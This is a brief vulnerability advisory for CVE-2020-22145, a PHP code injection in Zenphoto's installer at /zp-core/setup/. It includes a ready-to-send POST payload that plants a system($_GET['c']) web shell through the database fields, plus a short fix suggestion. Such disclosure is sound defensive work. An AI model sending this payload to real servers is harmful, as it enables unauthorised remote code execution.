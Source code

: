 ```yaml
---
cve: "CVE-2020-22145"
title: "Code injection in Zenphoto v1.5.6 and prior"
images: [/images/cve-mitre.png]
date: 2020-02-11
tags:
- cve
- code injection
- rce
---
```

A PHP code injection vulnerability in `/zp-core/setup/index.php` of Zenphoto 1.5.6 allows attackers to execute arbitrary code.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22145

<hr />

**Description:**  
The installation process is prone to PHP code injection which leads to a remote code execution.

**Details:**  
File: `/zp-core/setup/index.php`  
Parameters: `db_software`, `db_user`, `db_pass`, `db_host`, `db_database`  
URL: `/zp-core/setup/`

**Payload:**  
```
POST /zp-core/setup/
db=yes&xsrfToken=490edd5bf985248c832425d350602f5bb1c8043d&db_software=MySQLi%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_user=test%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_pass=test&db_host=localhost%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_database=zenphoto%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_prefix=zp_
```

**Recommendation:**  
A simple addslashes would do the trick to protect against single and double quotes.

**PoC:**  
![cve-2020-22145](/images/cve-2020-22145.png)
